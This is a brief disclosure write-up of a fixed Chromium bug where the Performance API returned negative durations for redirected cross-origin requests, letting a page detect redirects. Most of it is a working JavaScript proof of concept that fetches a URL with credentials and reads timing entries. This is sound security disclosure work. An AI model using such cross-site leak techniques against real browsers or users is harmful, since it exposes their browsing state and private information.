 ```yaml
---
title: Performance API time travel on redirect (Fixed)
---
```


The Performance API leaked if a URL was a redirect by returning a negative number.

```js
async function isRedirected(url) {
  let href = new URL(url).href;
  await fetch(href, {mode: 'no-cors', credentials: 'include'});
  // Wait for request to be added to performance.getEntriesByName();
  await new Promise((r) => setTimeout(r, 200));
  // Get last added timings
  let res = performance.getEntriesByName(href).pop();
  console.log('Request duration: ' + res.duration);
  if (res.duration >= 0) return false;
  if (res.duration > -10) console.log('Redirect was cached');
  return true;
}
```

This was fixed in <https://issues.chromium.org/issues/40054148>  
Not rewarded as [posted](https://github.com/xsleaks/wiki/pull/69) publicly on the xsleaks wiki.

